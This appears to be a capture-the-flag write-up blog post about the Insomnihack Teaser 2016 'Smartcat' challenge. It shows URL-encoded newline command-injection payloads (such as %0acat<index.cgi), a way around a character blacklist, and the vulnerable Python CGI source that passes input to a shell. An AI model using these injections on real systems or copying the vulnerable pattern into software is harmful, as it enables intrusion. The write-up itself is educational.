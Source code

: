 ```yaml
---
layout: post
title: "Smartcat"
category: Web Insomnihack Teaser 2016
author: "Leander"
date: 2015-09-28 22:04
---
```

![scoreboard](/images/2016-Insomnihack-Teaser/smartcat-scoreboard.png)

<strong>Description:</strong> Smartcat was one of the cheapest point challenges available during the Insomnihack Teaser in January 2016. When solving the challenge the team is awarded 50 points.
<!--break-->

------

## Introduction

When logging into the scoreboard we were presented with an interface where when clicking around on icons a challenge would be presented. When clicking on the litter box the we were presented with the smartcat1 challenge description and provided a link to reach the challenge site. Inside the description it describes that only the debug interface is available for the smart cat litter and that it only allows pings. It also tells u the "contract number" is stored somewhere on the page. Last, the challenge description tells us that there is no need to brute-force anything.

## Problem

After clicking on the link (<http://smartcat.insomnihack.cg/cgi-bin/index.cgi>), we were provided with the Smart Cat debugging interface - which allowed us to input text into a form box labeled <strong>dest</strong>. So my first check was to see what happened when I inserted the word <em>test</em>

![test case](/images/2016-Insomnihack-Teaser/smartcat-test.png)

This let me know that not only does the website accept IP addresses to test against ping, but also other inputs. In order to enable the ability to send other input though, we had to terminate the ping command with a carriage return. So we included a ```%0a``` argument in our web url request. This allowed us to execute arbitrary commands on the web server. For example, we could also put ```index.cgi?dest=%0als``` and ```index.cgi?dest=%0apwd``` and receive the directory contents and the present working directory of the web server script.[^1]

However, when we tried to chain multiple commands together we ran into problems. We couldn't do things like cat index.cgi, which would provide us the source code we were dealing with. We also tried hex encoding, url encoding, uniencoding, and then it hit us. Why aren't we using redirection?

> Before  a  command is executed, its input and output may be redirected using a special notation interpreted by the shell.  Redirection may also be used to  open  and close files for the current shell execution environment.  The following redirection operators may precede or appear anywhere within a simple command or  may  follow  a command.   Redirections are processed in the order they appear, from left to right.

So with that we redirected a file to cat, ```index.cgi?dest=%0acat<index.cgi```. Just like that we were given the source code for the server script running the diagnostic terminal. After getting ahold of the source code we were able to quickly identify the blacklisted characters. Which were plentiful ... ```$;&|({ `\t```. This limited us to using ```=%0a%00"'\/><-```. We did try to cat<there, but received an error. So we were able to see that it was probably a directory. Which leads us to our solution ...

{% highlight python linenos %}
#!/usr/bin/env python

import cgi, subprocess, os

headers = ["mod_cassette_is_back/0.1","format-me-i-im-famous","dirbuster.will.not.help.you","solve_me_already"]

print "X-Powered-By: %s" % headers[os.getpid()%4]
print "Content-type: text/html"
print

print """
<html>

<head><title>Can I haz Smart Cat ???</title></head>

<body>

<h3> Smart Cat debugging interface </h3>
"""

blacklist = " $;&|({`\t"
results = ""
form = cgi.FieldStorage()
dest = form.getvalue("dest", "127.0.0.1")
for badchar in blacklist:
if badchar in dest:
results = "Bad character %s in dest" % badchar
break

if "%n" in dest:
results = "Segmentation fault"

if not results:
try:
results = subprocess.check_output("ping -c 1 "+dest, shell=True)
except:
results = "Error running " + "ping -c 1 "+dest


print """

<form method="post" action="index.cgi">
<p>Ping destination: <input type="text" name="dest"/></p>
</form>

<p>Ping results:</p><br/>
<pre>%s</pre>

<img src="../img/cat.jpg"/>

</body>

</html>
""" % cgi.escape(results)
{% endhighlight %}

## Solution
While we were researching how to enumerate the directory we remembered about the ```find``` command.[^2] After, that it was easy to solve the problem, based on our progress so far. We executed a get request using, ```index.cgi?dest=%0afind``` and then used ```cat``` to retrieve the flag.

![solution](/images/2016-Insomnihack-Teaser/smartcat-solution.png)

------

## Endnotes

[^1]: Notice we did not include the entire url here. This is only for ease of creating the write-up. When crafting the HTTP get request it is required to send our input to the actual host address. I.e. http://smartcat.insomnihack.cg/cgi-bin/index.cgi

[^2]: The find utility recursively descends the directory tree for each path listed, evaluating an expression (composed of the ``primaries'' and ``operands'' listed below) in terms of each file in the tree.
